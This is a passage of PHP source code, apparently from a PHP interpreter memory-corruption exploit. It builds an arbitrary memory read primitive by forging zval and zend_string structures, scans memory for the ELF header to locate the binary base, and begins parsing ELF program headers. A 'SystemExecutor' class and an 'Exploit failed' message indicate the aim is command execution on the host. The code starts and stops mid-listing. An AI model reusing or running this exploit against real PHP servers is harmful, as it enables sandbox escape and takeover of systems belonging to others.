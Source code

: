 ```php
        $dlls[$this->i+1]->offsetUnset(0);
    }
}

class SystemExecutor extends ArrayObject
{
    function offsetGet($x)
    {
        parent::offsetGet($x);
    }
}

/**
 * Reads an arbitrary address by changing a zval to point to the address minus 0x10,
 * and setting its type to zend_string, so that zend_string->len points to the value
 * we want to read.
 */
function read($addr, $s=8)
{
    global $fake_dll_element, $leaked_str_offsets, $rw_dll;

    i2s($fake_dll_element, $leaked_str_offsets[2] + 0x18, $addr - 0x10);
    i2s($fake_dll_element, $leaked_str_offsets[2] + 0x20, 0x00000006);

    $value = strlen($rw_dll[0]);

    if($s != 8)
        $value &= (1 << ($s << 3)) - 1;

    return $value;
}

function get_binary_base($binary_leak)
{
    $base = 0;
    $start = $binary_leak & 0xfffffffffffff000;
    for($i = 0; $i < 0x1000; $i++)
    {
        $addr = $start - 0x1000 * $i;
        $leak = read($addr, 7);
        # ELF header
        if($leak == 0x10102464c457f)
            return $addr;
    }
    # We'll crash before this but it's clearer this way
    die('Exploit failed: Unable to find ELF header');
}

function parse_elf($base)
{
    $e_type = read($base + 0x10, 2);

    $e_phoff = read($base + 0x20);
    $e_phentsize = read($base + 0x36, 2);
    $e_phnum = read($base + 0x38, 2);

    for($i = 0; $i < $e_phnum; $i++) {
        $header = $base + $e_phoff + $i * $e_phentsize;
        $p_type  = read($header + 0x00, 4);
        $p_flags = read($header + 0x04, 4);
        $p_vaddr = read($header + 0x10);
        $p_memsz = read($header + 0x28);

```